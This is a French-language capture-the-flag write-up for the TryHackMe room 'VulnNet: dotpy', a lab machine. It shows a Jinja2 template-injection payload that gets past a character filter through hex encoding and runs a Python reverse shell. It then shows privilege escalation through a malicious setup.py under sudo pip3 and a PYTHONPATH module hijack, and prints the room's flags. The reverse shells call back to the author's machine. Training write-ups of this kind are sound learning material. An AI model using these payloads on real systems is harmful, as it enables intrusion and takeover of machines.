 # VulnNet: dotpy # 
## Task 1 VulnNet: dotpy ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.84.250 vulnnet-dopy.thm' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A vulnnet-dopy.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-17 21:20 CEST
Nmap scan report for vulnnet-dopy.thm (10.10.84.250)
Host is up (0.042s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://vulnnet-dopy.thm:8080/login
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/17%OT=8080%CT=1%CU=30204%PV=Y%DS=2%DC=T%G=Y%TM=616C
OS:7887%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)
OS:OPS(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506
OS:ST11NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)
OS:ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   32.25 ms 10.9.0.1
2   33.29 ms vulnnet-dopy.thm (10.10.84.250)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 238.07 seconds
```

D'après nmap il y a un seul service, le service http sur le port 8080.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://vulnnet-dopy.thm:8080/ -w /usr/share/dirb/wordlists/common.txt --exclude-length 3000 -q
/login                (Status: 200) [Size: 5589]
/logout               (Status: 302) [Size: 219] [--> http://vulnnet-dopy.thm:8080/login]
/register             (Status: 200) [Size: 5021]                                       
```

Je suis obligé d'exclure les page de taille de 3000 car sinon c'est la page d'erreur.  

![page](./Task1-01.png) 

Il faut créer un compte.  
On se connecte 

![page](./Task1-02.png) 

On est sur notre interface principale.   

![page](./Task1-03.png) 

On teste d'exploiter un faille Server side template injection et ça fonctionne car on a bien le résultat de notre multiplication.    

![page](./Task1-04.png)   

On remarque les caractère _.[] sont bloqués.  

```text
On va faire notre revereshell qui sera : python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.228.66",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![page](./Task1-05.png)   

On encode en hexadécimal notre reverse shell. 

```text
/{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(401)('reverse shell',shell%3dTrue,stdout%3d-1)|attr('communicate')()}}
```

On va inclure ceci a notre reverse shell.  

```bash
/{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(401)('\x70\x79\x74\x68\x6f\x6e\x20\x2d\x63\x20\x27\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x3b\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x3b\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x22\x31\x30\x2e\x39\x2e\x32\x32\x38\x2e\x36\x36\x22\x2c\x31\x32\x33\x34\x29\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x3b\x20\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x3b\x69\x6d\x70\x6f\x72\x74\x20\x70\x74\x79\x3b\x20\x70\x74\x79\x2e\x73\x70\x61\x77\x6e\x28\x22\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x22\x29\x27',shell%3dTrue,stdout%3d-1)|attr('communicate')()}}
```

Ceci sera notre charge utile à mettre en place.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute sur le 1234 pour avoir un shell.   

![page](./Task1-06.png)  

On envoi la charge utile avec burp car firefox change les caractères.   

```bash
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.84.250.
Ncat: Connection from 10.10.84.250:59708.
web@vulnnet-dotpy:~/shuriken-dotpy$ sudo -l
sudo -l
Matching Defaults entries for web on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *
```

On obtient un shell qui nous permet d'exécuter avec les droit system-adm /usr/bin/pip3 install *  

D'après [gtfobin]!(https://gtfobins.github.io/gtfobins/pip/#sudo) on peut obtenire un shell.  



```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1337
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
```

On écoute le port 1337 pour avoir un shell.   

```bash
web@vulnnet-dotpy:/tmp$ mkdir pe
cd pe
web@vulnnet-dotpy:/tmp/pe$ 
web@vulnnet-dotpy:/tmp/pe$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.228.66",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > setup.py
web@vulnnet-dotpy:~/shuriken-dotpy$ sudo -u system-adm /usr/bin/pip3 install /tmp/pe
p/pe -u system-adm /usr/bin/pip3 install /tmp
Processing /tmp/pe
```

On fait un reverse shell dans le répertroire /tmp/pe   
On l'exécute avec pip3 avec les droits system-adm.   

**What is the user flag? (user.txt)**

```bash
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.34.103.
Ncat: Connection from 10.10.34.103:54920.
$ id
id
uid=1000(system-adm) gid=1000(system-adm) groups=1000(system-adm),24(cdrom)  
python3 -c 'import pty;pty.spawn("/bin/bash")'

system-adm@vulnnet-dotpy:/tmp/pip-1d34oyuu-build$ cd /home/system-adm
cd /home/system-adm
system-adm@vulnnet-dotpy:~$ ls
ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
system-adm@vulnnet-dotpy:~$ cat user.txt
cat user.txt
THM{91c7547864fa1314a306f82a14cd7fb4}
```

On a un shell avec les droits system-adm.    
Dans le répertoire /home/system-adm on trouve un fichier user.txt, on le lit et on trouve le flag.   
Le flag est : THM{91c7547864fa1314a306f82a14cd7fb4}  

**What is the root flag? (root.txt)**   

```bash
system-adm@vulnnet-dotpy:~$ sudo -l
sudo -l
Matching Defaults entries for system-adm on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```

Dans la configuration sudo on peut modifier les variables d'environnement donc fait une usurpation de fichier, de plus on peut exécuter /opt/backup.py avec les droits root.   

```bash
system-adm@vulnnet-dotpy:~$ ls -la /opt/backup.py
ls -la /opt/backup.py
-rwxrwxr-- 1 root root 2125 Dec 21  2020 /opt/backup.py
```

On a pas les droits pour modifier le fichier backup.py.    

```bash
system-adm@vulnnet-dotpy:~$ cat /opt/backup.py | head
cat /opt/backup.py | head
from datetime import datetime
from pathlib import Path
import zipfile


OBJECT_TO_BACKUP = '/home/manage'  # The file or directory to backup
BACKUP_DIRECTORY = '/var/backups'  # The location to store the backups in
MAX_BACKUP_AMOUNT = 300  # The maximum amount of backups to have in BACKUP_DIRECTORY
```

On voit que zipfile est importé, on va l'usurper.   

```bash
system-adm@vulnnet-dotpy:/tmp$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.228.66",666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > zipfile.py                 

```

On fait un autre reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 666
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::666
Ncat: Listening on 0.0.0.0:666
```

On écoute sur le port 666 pour avoir le shell.   

```bash
system-adm@vulnnet-dotpy:/tmp$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py
p.py PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup
```

On exécute avec la variable PYTHONPATH pour dire que les librairies sont dans tmp, puis on exécute backup.py qui va exécuter notre reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 666
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::666
Ncat: Listening on 0.0.0.0:666
Ncat: Connection from 10.10.34.103.
Ncat: Connection from 10.10.34.103:40524.
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
THM{734c7c2f0a23a4f590aa8600676021fb}
```

On obtient un shell avec les droits root.
On lit le fichier root.txt dans root et on a notre flag.    
Le flag est : THM{734c7c2f0a23a4f590aa8600676021fb}    